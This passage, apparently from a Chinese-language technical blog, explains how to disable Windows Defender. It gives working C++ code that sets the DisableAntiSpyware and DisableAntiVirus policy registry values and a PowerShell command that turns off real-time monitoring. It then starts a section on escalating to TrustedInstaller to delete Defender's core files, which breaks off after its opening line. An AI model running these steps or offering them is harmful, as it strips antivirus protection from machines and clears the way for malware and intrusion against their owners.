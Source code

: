     
    
    #include <windows.h>  
    #include <iostream>  
      
    // 设置注册表键值的函数  
    bool SetRegistryValue(HKEY hRootKey, LPCSTR subKey, LPCSTR valueName, DWORD data) {  
        HKEY hKey;  
        // 打开指定的注册表键  
        LONG result = RegOpenKeyEx(hRootKey, subKey, 0, KEY_SET_VALUE, &hKey);  
          
        if (result != ERROR_SUCCESS) {  
            std::cerr << "打开注册表键失败: " << subKey << " 错误码: " << result << std::endl;  
            return false;  
        }  
      
        // 设置指定的注册表键值  
        result = RegSetValueEx(hKey, valueName, 0, REG_DWORD, (BYTE*)&data, sizeof(DWORD));  
        // 关闭注册表键  
        RegCloseKey(hKey);  
      
        if (result != ERROR_SUCCESS) {  
            std::cerr << "设置注册表值失败: " << valueName << " 错误码: " << result << std::endl;  
            return false;  
        }  
          
        return true;  
    }  
      
    int main() {  
        const char* subKey = "SOFTWARE\\Policies\\Microsoft\\Windows Defender";  
        // 设置两个注册表键值  
        if (SetRegistryValue(HKEY_LOCAL_MACHINE, subKey, "DisableAntiSpyware", 1) &&  
            SetRegistryValue(HKEY_LOCAL_MACHINE, subKey, "DisableAntiVirus", 1)) {  
            std::cout << "注册表键值设置成功!" << std::endl;  
        } else {  
            std::cerr << "设置注册表键值失败." << std::endl;  
        }  
      
        return 0;  
    }

## Powershell关闭Defender实时保护

执行如下Powershell命令可以关闭Windows Defender的实时保护Set-MpPreference
-DisableRealtimeMonitoring $true

![]()

## 提权至Trustedinstaller

### 情景分析

当我们使用system权限尝试删除WindowsDefender的某些核心文件时，会提示权限不足无法删除
